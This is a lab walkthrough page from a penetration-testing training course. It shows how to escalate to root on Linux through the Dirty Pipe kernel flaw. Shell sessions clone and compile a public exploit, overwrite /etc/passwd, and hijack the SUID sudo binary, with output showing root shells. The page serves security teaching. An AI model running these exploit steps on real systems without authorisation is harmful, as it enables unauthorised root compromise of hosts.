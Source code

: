 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/51/section/1597
// Platform Version: V1
// Module ID: 51
// Module Name: Linux Privilege Escalation
// Module Difficulty: Easy
// Section ID: 1597
// Section Title: Dirty Pipe
// Page Title: Hack The Box - Academy
// Page Number: 26
-->

# Dirty Pipe

**Module Name:** Linux Privilege Escalation **Page Number:** 26

#### 

#### LINUX PRIVILEGE ESCALATION

# Dirty Pipe

#### Download Dirty Pipe Exploit

``` shell-session
cry0l1t3@nix02:~$ git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git
cry0l1t3@nix02:~$ cd CVE-2022-0847-DirtyPipe-Exploits
cry0l1t3@nix02:~$ bash compile.sh
```

#### Verify Kernel Version

``` shell-session
cry0l1t3@nix02:~$ uname -r

5.13.0-46-generic
```

#### Exploitation

``` shell-session
cry0l1t3@nix02:~$ ./exploit-1

Backing up /etc/passwd to /tmp/passwd.bak ...
Setting root password to "piped"...
Password: Restoring /etc/passwd from /tmp/passwd.bak...
Done! Popping shell... (run commands now)

id

uid=0(root) gid=0(root) groups=0(root)
```

#### Find SUID Binaries

``` shell-session
cry0l1t3@nix02:~$ find / -perm -4000 2>/dev/null

/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/xorg/Xorg.wrap
/usr/sbin/pppd
/usr/bin/chfn
/usr/bin/su
/usr/bin/chsh
/usr/bin/umount
/usr/bin/passwd
/usr/bin/fusermount
/usr/bin/sudo
/usr/bin/vmware-user-suid-wrapper
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/pkexec
/usr/bin/newgrp
```

#### Exploitation

``` shell-session
cry0l1t3@nix02:~$ ./exploit-2 /usr/bin/sudo

[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))

# id

uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare),1000(cry0l1t3)
```

# 

# 

#### Questions

####